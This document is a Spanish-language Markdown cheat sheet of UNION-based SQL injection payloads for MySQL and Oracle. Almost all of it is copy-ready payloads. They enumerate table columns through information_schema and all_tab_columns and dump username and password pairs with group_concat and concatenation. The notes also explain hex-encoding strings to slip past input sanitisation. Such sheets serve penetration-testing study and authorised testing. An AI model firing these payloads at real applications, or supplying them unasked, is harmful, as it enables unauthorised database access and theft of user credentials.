 ## Para saber las columnas de la tabla que encontramos y la base de datos  (DB) especifica

```bash 
# MYSQL 

❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -                    # Nos muestra las columnas existentes
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯' limit 0,1-- -          # Nos muestra las columnas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
❯ ' union select group_concat(column_name) from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -     # Nos muestra las columnas existentes en una sola linea, pero separadas por comas
```

```bash 
# ORACLE

❯ ' union select column_name from all_tab_columns where table_name='❮Table_Name❯'-- -   # Mostrar las columnas en Oracle 
```

## Para que nos muestre los datos de las columnas

```bash
# MYSQL 

❯ ' union select group_concat(username) from ❮DB_Name❯.❮Table_Name❯-- -          # Especificamos la DB y la tabla, esto si la DB no es la que esta en uso y solo asi podemos ver los datos que queremos
❯ ' union select group_concat(username) from ❮Table_Name❯-- -                    # Para que nos muestre los datos, aqui asumimos que la base de datos es la que esta en uso 
❯ ' union select group_concat(username,':',password) from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
❯ ' union select username||':'||password from ❮Table_Name❯-- -                   # Para que nos muestre los datos de los usuarios y su passwd separados por : 
❯ ' union select group_concat(username,0x3a,password) from ❮Table_Name❯-- -      # Para que nos muestre los datos de los usuarios y su passwd separados por :

	 # Debemos de colocar los caracteres en Hexadecimal para evitar fallos
	 # : = 0x3a (Hex) 

❯ ' union select NULL,password from ❮Table_Name❯ where username = '0x61646d696e' -- -  # Podemos ofuscar (ocultar) la data, ya que muchas veces existe una sanitizacion que no permite ingresar cadenas de texto
	# 0x61646d696e (Hex) = admin 

❯ ' union select NULL,concat(username,':',password) from ❮Table_Name❯-- -         # Otra forma de agrupar los datos 
```

```bash 
# ORACLE

❯ ' union select username||':'||password from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
```
